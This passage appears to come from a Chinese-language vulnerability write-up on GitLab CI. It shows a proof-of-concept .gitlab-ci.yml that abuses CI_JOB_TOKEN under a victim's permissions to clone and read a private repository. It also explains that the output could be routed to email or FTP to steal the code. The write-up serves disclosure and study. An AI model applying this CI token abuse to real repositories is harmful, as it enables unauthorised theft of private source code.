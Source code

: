 回顾前面所设置的 CI 脚本 `.gitlab-ci.yml` 内容，此 poc 是在 Runner 中使用 `victim` 的权限访问了其 Private 仓库 `target` 的目录结构和 `README.md`：

```
image: "ruby:2.6"

rspec:  
  script:  
    - git clone http://gitlab-ci-token:$CI_JOB_TOKEN@172.168.30.2/victim/target.git
    - cd target
    - ls -lah .  
    - cat README.md
```

尔后攻击者只需要任意修改 `attacker1/poc` 仓库中一些无关紧要的内容，最坏情况下只需要等 30 分钟，就可以使用 `victim` 的权限执行设定的 CI 脚本。

虽然攻击者没有直接权限访问 Pipeline Jobs 的执行结果，但是只需要调整脚本的输出目标，例如把仓库的内容发送到指定 Email 或 FTP 服务器，即可窃取仓库代码。

![](imgs/11.png)
